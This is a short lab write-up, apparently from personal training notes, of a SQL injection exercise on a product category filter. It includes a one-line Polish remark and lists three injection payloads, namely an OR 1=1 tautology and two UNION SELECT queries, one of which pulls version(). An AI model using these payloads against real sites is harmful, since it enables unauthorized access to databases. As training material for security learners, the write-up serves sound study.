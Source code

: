 Title: SQL injection attack, querying the database type and version on MySQL and Microsoft
Level: Practitioner
Desc:  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string. 

W przeglądarce nie działało, w Burp już tak
`category=Gifts' OR 1=1#`
![image](https://github.com/user-attachments/assets/32cc23eb-4df5-448f-a191-107ab3931b27)

`category=Gifts' OR 1=1 UNION SELECT NULL,NULL#`
![image](https://github.com/user-attachments/assets/6f1fcc36-65d7-4498-b9ca-54057a21606d)

`category=Gifts' OR 1=1 UNION SELECT '1',version()#`
![image](https://github.com/user-attachments/assets/e40c57a9-4847-4b9c-af6d-24496f1dcefd)
